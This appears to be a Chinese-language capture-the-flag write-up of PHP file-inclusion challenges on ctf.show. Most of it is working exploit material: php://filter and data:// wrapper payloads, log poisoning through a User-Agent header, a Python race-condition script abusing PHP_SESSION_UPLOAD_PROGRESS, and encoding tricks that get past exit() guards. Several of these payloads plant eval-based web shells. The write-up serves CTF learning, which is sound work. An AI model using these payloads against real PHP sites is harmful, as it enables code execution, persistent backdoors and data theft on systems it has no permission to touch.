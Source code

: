 [toc]

# 78,79 伪协议

78:	

​		?file=php://filter/convert.base64-encode/resource=flag.php

79:	

​		/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

​		PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

​		<?php system(‘cat flag.php’);

# 80,81 包含日志文件

第一次请求，日志文件会记录user-agent

```
GET / HTTP/1.1
Host: be29ecdd-473d-4097-ab84-b6115978cf17.challenge.ctf.show
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36<?php system('cat fl0g.php');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

第二次请求包含日志文件

```
GET /?file=/var/log/nginx/access.log HTTP/1.1
```

# 82~86session包含，条件竞争

> 利用**PHP_SESSION_UPLOAD_PROGRESS**进行文件包含
>
> 1.简单来说，上面这个选项开启以后，上传文件，我们能够POST请求查看上传进度
>
> 2.我们在session中写入我们要执行的代码
>
> 3.用户可以自己定义Session ID，比如在Cookie里设置PHPSESSID=flag，PHP将会在服务器上创建一个文件：/tmp/sess_flag，我们能够命名'sess_'后面的名字
>
> 4.之后要执行就要包含这个session文件
>
> 5.默认情况下，session.upload_progress.cleanup是开启的，一旦读取了所有POST数据，就会清除进度信息
>
> 6.于是我们需要条件竞争来读取文件，所谓条件竞争简单来说是在执行系统命令前先执行完自己的代码，在文件上传中很常见

Python脚本

```python
import io
import sys
import requests
import threading

sessid = 'Qftm'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://250307c3-cf87-4811-987f-20189fa2442c.chall.ctf.show/',
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('cat *');fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>');?>"},
            files={"file":('q.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'http://250307c3-cf87-4811-987f-20189fa2442c.chall.ctf.show/?file=/tmp/sess_{sessid}')
        if 'flag' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()

    READ(session)

```

其中

```python
fputs(fopen('shell.php','w'),'<?php @eval($_POST[mtfQ])?>'
是典型的条件竞争语句，运用在文件上传漏洞
```

手工脚本配合bp

post

```
POST / HTTP/1.1
Host: 30ef26d3-1ef6-4c1d-8ab1-e32626bb8dc2.challenge.ctf.show
Content-Length: 466
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost:63342
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBTrnrfIdxpTFik8o
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://localhost:63342/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie: PHPSESSID=ylc

------WebKitFormBoundaryBTrnrfIdxpTFik8o
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

<?php system('less fl0g.php');?>

------WebKitFormBoundaryBTrnrfIdxpTFik8o
Content-Disposition: form-data; name="file"; filename="mm"
Content-Type: application/octet-stream

§mysql§

------WebKitFormBoundaryBTrnrfIdxpTFik8o--
```

get

```
GET /?file=/tmp/sess_ylc HTTP/1.1
Host: 30ef26d3-1ef6-4c1d-8ab1-e32626bb8dc2.challenge.ctf.show
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: §466§

```



# 87 双编码及exit;绕过

[p大：绕过<?php exit();?>](https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list)

```
一个正常的base64_decode实际上可以理解为如下两个步骤：
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
将一些不能转码的字符给去掉
```

$file

```php
urldecode($file);
经历两次url转码，
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30
解码后为：
php://filter/write=convert.base64-decode/resource=3.php
```

$content

```
<?php die('大佬别秀了');?>
经过base64解码后为：
phpdie
因为base64算法解码时是4个byte一组，所以给他增加2个“aa”一共8个字符
phpdieaa 就可以正确解码了
写入3php中的payload为：<?php @eval($_POST[a]);?>
base64加密后为：PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==
前面加两个aa保证phpdieaa可以解码
content=aaPD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==
```

生成3php后执行payload

```
3.php
post: system('ls');
post: system('cat fl0g.php');
```

# 116 文件分离

kali系统安装foremost，分离下载的MP4，里面png就是源码

直接读文件就行

?file=flag.php

# 117 伪协议，其他编码

```
file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
contents=?<hp pvela$(P_SO[T]1;)>?
```

生成a.php后

```
ctfshow/a.php
post: 1= system('ls');
post: 1= system('cat flag.php');
```
